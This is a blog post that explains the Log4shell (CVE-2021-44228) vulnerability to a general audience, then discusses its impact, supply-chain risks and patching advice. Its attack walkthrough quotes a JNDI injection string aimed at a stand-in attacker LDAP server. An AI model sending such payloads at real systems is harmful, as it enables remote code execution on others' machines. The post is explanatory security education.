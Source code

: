 ```yaml
---
title: "Log4shell Vulnerability"
categories:
  - General
---
```


WHEW, it certainly has been one hell of a year for cyber security, and it's only getting more intense. You may have heard of the recent vulnerability dubbed CVE-2021-44228, or better known as Log4shell. It has all cyber security professionals, hackers and businesses around the world very worried (or excited depending on where you stand on the issue). So what is Log4shell? Should you personally be worried about it? In this article I'll attempt to explain what it is and why this is such a big deal. Enjoy!

### What the hell is Log4shell?

Well first to understand what Log4shell is, we need to understand what underlying mechanism is being exploited. Let's start with **log4j**.

Log4j is a java library developed by Apache that is used to help log data. This logging mechanism allows for errors, authentication failures, user input, etc. to be logged into a format where they can be reviewed later for whatever reason. If you're a web application developer, this can be very useful. Log4j is also **open source**, which means that the code is available to be publicly viewed, used and changed as needed by the requirements of the user. Java (code and framework) is one of the most commonly used technologies in the world. It runs on (but not limited to) webservers, mobile devices and even cars. There are millions of devices that rely on Java, as well as log4j, making this vulnerability widespread and diverse.

Log4shell is the vulnerability for log4j that takes advantage of its lookup functionality and improper input validation. You can think of lookups in this context for log4j as a way to interpolate input upon logging a message. Lookups can be useful in the sense that they can pull data from remote resources as well as other applications if need be. If you're running a multi-threaded application, lookups are key to having your application function properly. The JNDI (Java Naming and Directory Interface) is the specific lookup available in log4j that was targeted in these attacks. A hacker can craft a special string that has a JNDI lookup make a request to a server that is under the attacker's control and then execute code remotely. It may sound difficult to do, but the exploit is quite simple. Let's take a look at the attack in a bit more depth in the next section.

### Log4shell Example

![log4shell]({{ site.url }}{{ site.baseurl }}/assets/images/log4j_attack.png)

The picture above shows a full example of how this vulnerability can be exploited by an attacker. Let's break this down:

1. The attacker crafts a malicious string that utilizes a JNDI lookup. The method for injecting this string can vary, but in this case, the attacker passed it in the User Agent. The string ${jndi:ldap://evil.xa/x} tells the JNDI to connect to the attacker's evil LDAP server.

2. The string is passed to log4j for logging purposes.

3. Log4j takes the string, interpolates it and then queries the attacker's LDAP server. Remember, there is no input validation that is checking to see what is being passed. This means that log4j is happy to log any input it sees and query accordingly. 

4. The attacker's LDAP server responds to the query by giving the directory information that contains the malicious code.

5. The malicious code is then executed after being downloaded.

As we can see, this attack is quite simple yet very effective. There are many variations that an attacker can use to pass the string. The code executed could be setting up a reverse shell that allows the attacker to remotely control the target machine. The possibilities from there are endless.

### Conclusion 

This vulnerability is bad...

This is probably one of the biggest vulnerabilities that has been discovered in recent history. I liken this to the [Heartbleed vulnerability](https://www.csoonline.com/article/3223203/what-is-the-heartbleed-bug-how-does-it-work-and-how-was-it-fixed.html) that affected OpenSSL years ago. Although they are different vulnerabilities entirely, there were similar circumstances surrounding them both; Both technologies where the code lived in were open source, and both were exploited as a **zero day attack**. Zero days are exploits that have not been caught, detected or mitigated (via a patch for example). Attackers are able to utilize zero days as long as there is nothing stopping them from exploiting it. Usually once a zero day has been brought to the attention of the developers and the general public, patches will be made for it, so timing is a very important factor in using these exploits.

The challenge with log4j, which makes it different that other vulnerabilities, is that java runs on a myriad of devices, which means log4j ultimately does as well. This makes patch management for log4shell very difficult. Identifying which devices are A) critical systems and B) vulnerable can be a difficult process. Companies right now are scrambling to patch all systems that they know of that contain the vulnerability. Cyber security experts are predicting that the effects of this vulnerability have not fully been realized. It is quite possible that the really good hackers have been able to use this exploit to get into a network, establish persistence and then "go dark". They may be biding their time in order to figure out how to move laterally around the network and perform whatever malicious deed they want.

I think that what we're going to see in the future is an influx of supply chain attacks. Remember, while large companies like Apple or Google are actively patching and remediating devices, it doesn't mean their vendors are doing the same thing. As a matter of fact, larger companies can't force their vendors to patch devices or adhere to certain standards for cyber security. This creates a potential "in" for hackers as they can potentially compromise a vendor and then work to get into the main company's network.  

For all of us and our personal cyber security, it's hard to tell right now how you can be affected. We definitely have devices or technologies that run java and log4j, but that doesn't necessarily mean those devices are "easy" to perform this exploit on. An internet facing webserver is going to be easier to exploit than a Tesla for example (hopefully). However, you should definitely take inventory of devices you own and update them with the latest patches if available. Also, please make sure that any accounts you may have with any major institutions are secured with two factor authentication and strong passwords, as there's no telling if hackers have compromised these sites and will attempt to steal credentials. 

Thank you for reading!









